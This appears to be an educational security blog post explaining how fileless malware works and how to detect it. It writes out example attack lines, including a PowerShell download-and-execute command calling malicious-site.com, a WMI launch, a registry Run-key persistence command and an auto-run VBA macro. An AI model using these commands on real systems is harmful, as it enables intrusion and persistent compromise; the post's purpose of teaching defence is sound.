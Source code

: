 ```yaml
---
title: Understanding Fileless Malware
date: {}
author: daniyyell
categories:
  - Malware_Analysis
tags:
  - Fileless Malware
  - Security
  - Threat Analysis
published: false
---
```


# Understanding Fileless Malware

## What is Fileless Malware?

Fileless malware is a type of malicious software that operates without needing to install files directly onto a victim's device. Unlike traditional malware, which relies on executable files, fileless malware leverages existing software, legitimate system tools, and protocols to execute its payload. This makes detection and mitigation more challenging, as it doesn't leave behind traditional footprints that antivirus software typically looks for.

<style>
    img {
        max-width: 100%;
        height: auto;
    }
</style>

<p align="center">
    <img src="https://raw.githubusercontent.com/daniyyell-dev/draw.io/main/fileless_Malware.png" alt="Fileless Malware">
</p>

<p align="center"><em>Fileless Malware Overview</em></p>

## How Does Fileless Malware Work?

Fileless malware operates by injecting malicious code into legitimate processes running in memory. Here are some common techniques used by fileless malware:

### PowerShell Scripts

Attackers often use PowerShell, a legitimate Windows administration tool, to execute malicious scripts directly in memory. PowerShell scripts can download and execute additional payloads, conduct reconnaissance, and establish persistence.

# Example of a Malicious PowerShell Command

`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://malicious-site.com/malware.ps1')"`

### Windows Management Instrumentation (WMI)

WMI allows attackers to gather information and execute code without needing to drop files on the system. It is often used for lateral movement and persistence.

# Example of WMI Usage for Persistence

`wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command 'Get-Content malicious.ps1 | iex'"`

### Registry Manipulation

Malicious code can be stored and executed directly from the Windows registry, avoiding the file system altogether. This technique is often used to achieve persistence.

# Example of Registry Persistence

`Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -NoProfile -ExecutionPolicy Bypass -File C:\malicious.ps1"`

### Macros and Scripts

Infected macros in documents (e.g., Microsoft Word or Excel) can run malicious scripts when the document is opened. These macros can download and execute additional payloads from the internet.

# Example of a Malicious VBA Macro

vba script sample

'Sub AutoOpen()
    Dim objShell As Object
    Set objShell = CreateObject("WScript.Shell")
    objShell.Run "powershell -NoProfile -ExecutionPolicy Bypass -Command IEX (New-Object Net.WebClient).DownloadString('https://malicious-site.com/malware.ps1')", 0, True
End Sub'

### Examples of Fileless Malware Attacks

**Operation Cobalt Kitty**

In this attack, a sophisticated cyber espionage group used fileless techniques to infiltrate and persist in a corporate network. They utilized PowerShell scripts and WMI to move laterally and exfiltrate sensitive data without dropping any traditional malware files. Read more <a href="https://www.cybereason.com/blog/operation-cobalt-kitty-apt">Operation Cobalt Kitty: A large-scale APT in Asia carried out by the OceanLotus Group</a>


**APT28/Sofacy**

The APT28 group, also known as Sofacy, used fileless malware to target government institutions and defence contractors. They employed macros embedded in Office documents to execute PowerShell scripts, thereby compromising systems without writing files to disk. Read More here <a href="https://www.crowdstrike.com/blog/who-is-fancy-bear/">Who is FANCY BEAR (APT28)?</a>



### Detection and Prevention

Detecting fileless malware requires a multi-layered security approach, including:

#### Behavioral Analysis

Monitoring unusual behaviour patterns in legitimate processes can help identify fileless malware activity. This involves looking for abnormal usage of tools like PowerShell and WMI.

#### Endpoint Detection and Response (EDR)

EDR tools can detect suspicious activities in memory and registry that traditional antivirus solutions might miss. These tools often use machine learning and behaviour analytics to identify threats.

#### PowerShell Logging

Enabling PowerShell script block logging helps detect and investigate potentially malicious scripts. This provides visibility into the execution of commands and scripts on endpoints.

**Enable PowerShell Script Block Logging**

`Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1`

#### Least Privilege Principle

Limiting user permissions can prevent malicious scripts from executing critical system changes. Ensure that users have the minimum necessary access rights.


### Conclusion

Fileless malware represents a significant threat due to its stealthy nature and ability to evade traditional detection methods. Understanding how it operates and employing robust detection and prevention measures is crucial for protecting against these sophisticated attacks.

Stay vigilant and keep your security tools and practices up to date to defend against the ever-evolving threat landscape.

### References

1. <a href="https://www.cybereason.com/blog/operation-cobalt-kitty-apt">Operation Cobalt Kitty APT - Cybereason</a>
2. <a href="https://www.crowdstrike.com/blog/who-is-fancy-bear/">Who is Fancy Bear?</a>


